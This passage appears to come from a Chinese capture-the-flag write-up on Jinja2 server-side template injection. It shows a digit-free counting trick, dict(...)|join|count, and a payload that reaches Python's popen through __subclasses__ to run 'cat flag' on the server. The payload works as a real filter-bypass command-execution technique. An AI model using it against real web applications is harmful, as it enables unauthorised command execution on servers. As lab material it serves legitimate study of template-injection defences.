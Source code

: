 ```plain
{% set a=(dict(e=a)|join|count)%} 
```

[![在这里插入图片描述](assets/1698900310-56d43989586de65e157d9626aec1f78c.png)](https://storage.tttang.com/media/attachment/2022/08/14/8a4ae22f-48c7-4826-8193-1a387270227d.png)  
我们这里利用这个 payload

```plain
{%print(().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('cat flag').read())%}
```

简单修改一下

```plain
{% set a=(dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count)%}
{%print(().__class__.__base__.__subclasses__()[a].__init__.__globals__['popen']('cat flag').read())%}
```
